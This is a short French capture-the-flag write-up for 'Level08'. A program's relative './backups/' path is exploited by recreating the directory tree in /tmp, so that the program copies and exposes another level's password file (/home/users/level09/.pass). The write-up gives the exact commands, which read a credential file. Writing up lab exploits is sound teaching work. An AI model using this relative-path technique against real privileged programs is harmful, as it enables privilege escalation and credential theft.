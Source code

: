 # Level08:

Pour ce niveau on peut voir un chemin relatif `./backups/` dans le `main()`,
nous pouvons donc exploiter le chemin relatif depuis le dossier `tmp` en recreeant le dossier avec la commande ci-dessous:

`cd /tmp`
`mkdir -p backups/home/users/level09/`

Maintenant il suffit simplement de demander au programme de copier le fichier /home/users/level09/.pass a l'aide du programme:

`~/level08 /home/users/level09/.pass`

Et on peut l'afficher.
`cat ./backups/home/users/level09/.pass`

![finaly.png](./finaly.png)